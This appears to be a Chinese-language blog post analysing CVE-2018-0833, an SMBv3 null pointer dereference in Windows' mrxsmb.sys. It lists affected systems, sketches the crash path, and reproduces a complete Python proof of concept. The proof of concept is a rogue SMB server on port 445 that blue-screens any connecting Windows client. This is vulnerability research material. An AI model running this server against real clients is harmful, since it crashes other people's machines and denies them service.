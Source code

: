 ```yaml
---
layout: post
title:  "SMBv3无效指针引用漏洞(CVE-2018-0833)"
date:   2018-03-05 11:30:00
categories: cve漏洞
tags: [漏洞分析]
---
```


<!-- more -->

### 影响范围

- Microsoft Windows Server 2012 R2 0 
- Microsoft Windows RT 8.1 
- Microsoft Windows 8.1 for x64-based Systems 0 
- Microsoft Windows 8.1 for 32-bit Systems 0

### 漏洞分析

实验环境： Microsoft Windows 8.1 x64

32 位下SMB的头结构：

![](../image/2018-03-05-SMBv3无效指针引用漏洞(CVE-2018-0833)/1.png)

poc发送了带有0xFD头部的SMB数据包，而之前并没有进行会话协商。

具体漏洞形成原因：

![](../image/2018-03-05-SMBv3无效指针引用漏洞(CVE-2018-0833)/2.jpg)

崩溃发生在mrxsmb.sys模块，用于SMB消息的重定向，具体在mrxsmb!SmbWskReceiveEvent+1a921处： movzx   ecx,word ptr [rax+48h]，此时rax的值为0，零地址为无效地址，对其引用造成崩溃蓝屏。

进入SmbWskReceiveEvent函数进行查看，在处理SMB消息包时，会检查加密是否开启，如果未开启，则要r15d的值与0x34比较。

![](../image/2018-03-05-SMBv3无效指针引用漏洞(CVE-2018-0833)/3.jpg)

如果大于0x34则进入下一处比较：

![](../image/2018-03-05-SMBv3无效指针引用漏洞(CVE-2018-0833)/4.jpg)

**参考作者的分析文章，作者也没有分析清楚，只是大概讲了程序流程，该漏洞也没有太大的研究意义，所以写到这，做个记录**

### poc代码

```
# Exploit Title: Microsoft Windows SMB Client Null Pointer Dereference Denial of Service
# Date: 26/02/2018
# Exploit Author: Nabeel Ahmed
# Version: SMBv3
# Tested on: Windows 8.1 (x86), Windows Server 2012 R2 (x64)
# CVE : CVE-2018-0833

import SocketServer
from binascii import unhexlify
payload = '000000ecfd534d4241414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
class byebye(SocketServer.BaseRequestHandler):
        def handle(self):
                try:
                        print "From:", self.client_address
                        print "[*]Sending Payload..."
                        self.request.send(unhexlify(payload))
                except Exception:
                        print "BSoD Triggered on", self.client_address
                        pass
SocketServer.TCPServer.allow_reuse_address = 1
launch = SocketServer.TCPServer(('', 445),byebye)
launch.serve_forever()

```

### 参考链接

https://krbtgt.pw/smbv3-null-pointer-dereference-vulnerability/

http://www.vfocus.net/art/20180228/14283.html

http://toutiao.secjia.com/cve-2018-0833

SMB 消息结构：https://msdn.microsoft.com/en-us/library/ee441702.aspx
